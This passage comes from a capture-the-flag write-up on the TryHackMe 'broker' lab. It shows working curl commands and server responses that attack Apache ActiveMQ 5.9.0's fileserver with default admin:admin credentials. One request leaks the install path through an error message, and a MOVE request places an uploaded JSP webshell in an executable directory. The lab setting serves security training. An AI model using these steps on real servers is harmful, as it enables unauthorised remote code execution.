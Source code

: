 ```
< HTTP/1.1 204 No Content
< Server: Jetty(7.6.9.v20130131)
< 
* Connection #0 to host broker.thm left intact
```

- Try to reach the webshell:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/broker/images/Pasted%20image%2020230101223119.png)

As you can see, our JSP webshell doesn't work, as **it has no execute permissions in the `/fileserver/` directory.**

- To fix that, we can leak the absolute path:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# curl -vv -X PUT 'http://admin:admin@broker.thm:8161/fileserver/leak/%20/%20'
*   Trying 10.10.179.241:8161...
* Connected to broker.thm (10.10.179.241) port 8161 (#0)
* Server auth using Basic with user 'admin'
> PUT /fileserver/leak/%20/%20 HTTP/1.1
> Host: broker.thm:8161
> Authorization: Basic YWRtaW46YWRtaW4=
> User-Agent: curl/7.86.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 500 /opt/apache-activemq-5.9.0/webapps/fileserver/leak/ /  (No such file or directory)
< Content-Length: 0
< Server: Jetty(7.6.9.v20130131)
< 
* Connection #0 to host broker.thm left intact
```

The absolute path is in `/opt/apache-activemq-5.9.0/webapps/fileserver/`.

- Then, use MOVE method to move the JSP webshell to `/admin` directory:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/broker]
└─# curl -vv -X MOVE -H 'Destination: file:///opt/apache-activemq-5.9.0/webapps/admin/exploit.jsp' 'http://admin:admin@broker.thm:8161/fileserver/exploit.jsp' 
*   Trying 10.10.179.241:8161...
* Connected to broker.thm (10.10.179.241) port 8161 (#0)
* Server auth using Basic with user 'admin'
> MOVE /fileserver/exploit.jsp HTTP/1.1
> Host: broker.thm:8161
> Authorization: Basic YWRtaW46YWRtaW4=
> User-Agent: curl/7.86.0
> Accept: */*
> Destination: file:///opt/apache-activemq-5.9.0/webapps/admin/exploit.jsp
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 204 No Content
< Server: Jetty(7.6.9.v20130131)
< 
```